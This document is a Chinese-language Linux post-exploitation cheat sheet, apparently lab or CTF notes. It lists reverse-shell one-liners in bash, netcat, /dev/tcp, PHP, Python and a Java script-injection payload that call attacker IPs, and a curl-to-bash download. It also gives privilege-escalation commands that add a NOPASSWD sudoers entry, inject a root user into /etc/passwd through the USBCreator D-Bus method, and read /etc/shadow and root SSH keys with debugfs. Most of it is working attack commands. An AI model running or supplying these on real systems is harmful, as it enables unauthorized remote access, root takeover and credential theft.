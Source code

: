 **获取到一个 shell 了，可以添加 authorized_keys 到.ssh 文件夹中，以方便我们登录或者创建 ssh 隧道**
```bash
cd ~ ; mkdir .ssh ; cd .ssh
ssh-keygen -f xekOnerR (kali)
echo '' > authorized_keys  /  xx.pub
```

**SHELL**
(反弹 shell 失败可以尝试更换端口：443, 80 .....)
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.11 1337 >/tmp/f
echo -e '#!/bin/bash\n\nbusybox nc -e /bin/bash 192.168.39.93 3000' > /tmp/shell.sh ; chmod +x /tmp/shell.sh
echo -e 'sh -i >& /dev/tcp/192.168.49.94/3000 0>&1' > /tmp/shell.sh ; chmod +x /tmp/shell.sh
curl http://10.10.14.11/rev.sh | bash
nc -nv 192.168.45.170 3000 -e /bin/bash
"php -r '\$sock=fsockopen(\"192.168.45.170\", 2233);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
busybox nc 192.168.45.170 443 -e /bin/sh
```

JAVA
```java
${script:javascript:java.lang.Runtime.getRuntime().exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.45.199/2233<&1')}
%24%7bscript%3ajavascript%3ajava.lang.Runtime.getRuntime().exec('%2fbin%2fbash%20-c%20bash%24IFS%249-i%3e%26%2fdev%2ftcp%2f192.168.45.199%2f2233%3c%261')%7d
```

easy php
```php
<?php
$sock=fsockopen("10.10.14.24", 443); 
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

提权 cmd
- xxx.sh
```bash
echo 'username ALL=(root) NOPASSWD: ALL' >> /etc/sudoers
```

py
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",2233));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

__import__('os').system('id')
__import__('os').system('bash')
```


## TTY SPAWN SHELL :
```bash
which python (查看靶机上是否有python)   /  which script
python3 -c 'import pty;pty.spawn("/bin/bash");'   / script -O /dev/null -q /bin/bash  (获得完整的交互性shell会话) 
CTRL + Z
stty raw -echo ; fg
reset , 如果系统提示输入终端类型，输入 screen
export TERM=xterm-color
```

#### 可执行文件文件夹路径
```
/dev/shm/
```

## 手工枚举

```bash
whoami 
id   
(如果拥有 4(adm) 可以去/var/log查找包含passw的字符串的日志信息)
grep -r passw . 2>/dev/null

who 
uname -a
	cat /proc/version
	cat /etc/issue
	hostname(ctl)
ip a 
	ifconfig
	ip addr
	ip route
	arp -a
	cat /proc/net/fib_trie
ls -liah 
history 
which python

sudo -l (查看当前用户有那些文件是可以以root身份去执行的文件)
getcap -r / 2>/dev/null  (得到权限能力目录 错误信息重定向到null中 防止信息洪水)
find / -perm -u=s -type f 2>/dev/null (查找所有suid权限的文件 过滤错误信息 类型为文件)
cat /etc/crontab 
	 grep "CRON" /var/log/syslog
cat /etc/passwd 
cat /etc/passwd | grep home | awk -F ':' '{print $1}' 
ls -liah /etc/passwd /etc/shadow
find / -writable -type f -not -path "/sys/*" -not -path "/proc/*" 2>/dev/null
	
find / -type f -name "*" |xargs grep -ri "fireman" 2>/dev/null
echo $PATH 
ps -ef (查看所有的进程)
	ps axjf (查看进程树)
	ps aux (查看全部用户的进程)
    top -n 1 (查看进程 只查看一次)
netstat -a 
	netstat -tnl
	netstat -ano
	lsof -i :PORT
cat /etc/fstab (查看有无磁盘被挂载)
mysql -u root 
ls /etc/cron*
cd /home/[USER]/Documents
	grep -rn "ssh" 可能存在密码泄露
/backup  查看backups文件夹内容
cat /etc/exports (查看NFS配置)
cat /etc/mysql (如果后期拿到mysql的账号会有用)
cat /etc/exports ((111,2049开放)NFS配置不当提权) 参考2049 - NFS
ls -laR
find / -name backup 2>/dev/null
查找home目录中的.cache 如果有motd.legal-displayed 文件夹 ， 见下motd.legal-displayed提权
```

```shell
su <高权限USER>
```

**遇到有 sudo -l 没见过的，--help 和 man 查看命令手册帮助可能不太一样**

```bash
man genie
```


## 自动枚举

**Linpeas**
```shell
chmod +x linpeas.sh
./linpeas.sh
```

[+] **PSPY 64**
pspy 是一个命令行工具，它可以在没有 Root 权限的情况下，监控 Linux 进程。
```shell
wget http://<KALI IP>:<PORT>/pspy64
chmod +x pspy64
./pspy64
```

### gcc 编译的一些问题
**没有 gcc**
```bash
which cc
```

**exp 中：gcc 替换成 cc**
```bash
sed 's/gcc/cc/g' <FILE>
```
**g++** 也可以尝试，如果实在什么都没有，那就直接在 kali 上编译好然后传过去：

#### 如果遇到 ：version `GLIBC_2.34' not found
```bash
gcc --static EXP.c
```
会生成一个 a.out , 然后改名为 a.elf , 传到靶机上去
```bash
chmod +x a.elf
./a.elf
```


### motd.legal-displayed 提权
一般在 home 的.cache 文件夹，如果存在 motd.legal-displayed，则可能造成提权
**Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)**
```
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)         linux/local/14339.sh
```
wget 传输文件到靶机，bash 运行脚本，运行脚本后输入密码 toor 登录到 root 用户提权


### 存在 51-ubuntu-admin.conf
可以尝试的提权方式
```bash
cat /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf 
[Configuration] 
AdminIdentities=unix-group:sudo;unix-group:admin
```
利用：
```bash
ls -la /dev/shm/xek
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /dev/shm/xek true
```
提权操作：
```bash
cd /tmp;cp /etc/passwd passwd
openssl passwd -1 xekoner
echo 'xekoner:$1$9qOwxI.G$aW0MpGd5x9MAAKPQ0GOKk.:0:0:pwned:/root:/bin/bash' >> passwd
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /tmp/passwd /etc/passwd true
```

### 监听流量数据
```bash
tcpdump -i lo -nnXs 0 'port 389'
```


# 组特权提权

##### 拥有 116(lxd) 特权，LXC Exploitation 特权提升
创建一个容器，并将根文件系统挂载到容器中，然后可以完全访问它
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation


#####  6(disk) 权限
此权限几乎等同于 root 访问权限，因为您可以访问计算机内部的所有数据。
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#disk-group
```bash
df -h   (查找可以的磁盘)
debugfs /dev/sda1   （进入磁盘）
debugfs:  cat /etc/shadow
debugfs:  cat /root/.ssh/id_rsa
```


### `git` 文件夹收集信息
```bash
git show 
git status   (显示上次提交中存在但不再存在的所有文件)
git log --oneline   (历史记录显示一些提交)
git log --name-only --oneline
	git diff 1e84a03 b73481b  (显示两个hash之间的差异 可能存在密码之类的敏感信息)
git checkout d387abf -- resources/integration/authcredentials.key  (恢复旧数据)
git reset --hard 7ff507d  (复原)
```